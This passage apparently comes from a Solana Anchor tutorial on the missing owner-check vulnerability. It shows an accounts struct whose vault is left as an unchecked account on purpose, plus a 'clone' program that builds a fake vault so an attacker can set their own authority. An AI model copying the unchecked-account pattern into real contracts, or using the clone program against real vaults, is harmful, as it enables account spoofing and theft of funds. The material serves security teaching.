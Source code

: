 ```rust
    /// CHECK: This account will not be checked by anchor
    pub vault: UncheckedAccount<'info>,
    #[account(
        mut,
        seeds = [b"token"],
        bump,
    )]
    pub token_account: Account<'info, TokenAccount>,
    #[account(mut)]
    pub withdraw_destination: Account<'info, TokenAccount>,
    pub token_program: Program<'info, Token>,
    pub authority: Signer<'info>,
}

#[account]
#[derive(Default, InitSpace)]
pub struct Vault {
    token_account: Pubkey,
    authority: Pubkey,
}
```

The `clone` program includes a single instruction handler:

- `initialize_vault`: Initializes a fake vault account that mimics the vault
  account of the `owner_check` program, allowing the malicious user to set their
  own authority.

```rust
use anchor_lang::prelude::*;
use anchor_spl::token::TokenAccount;

declare_id!("2Gn5MFGMvRjd548z6vhreh84UiL7L5TFzV5kKGmk4Fga");

pub const DISCRIMINATOR_SIZE: usize = 8;

#[program]
pub mod clone {
    use super::*;

    pub fn initialize_vault(ctx: Context<InitializeVault>) -> Result<()> {
        ctx.accounts.vault.token_account = ctx.accounts.token_account.key();
        ctx.accounts.vault.authority = ctx.accounts.authority.key();
        Ok(())
    }
}

#[derive(Accounts)]
pub struct InitializeVault<'info> {
    #[account(
        init,
        payer = authority,
        space = DISCRIMINATOR_SIZE + Vault::INIT_SPACE,
    )]
    pub vault: Account<'info, Vault>,
    pub token_account: Account<'info, TokenAccount>,
    #[account(mut)]
    pub authority: Signer<'info>,
    pub system_program: Program<'info, System>,
}

#[account]
#[derive(Default, InitSpace)]
pub struct Vault {
```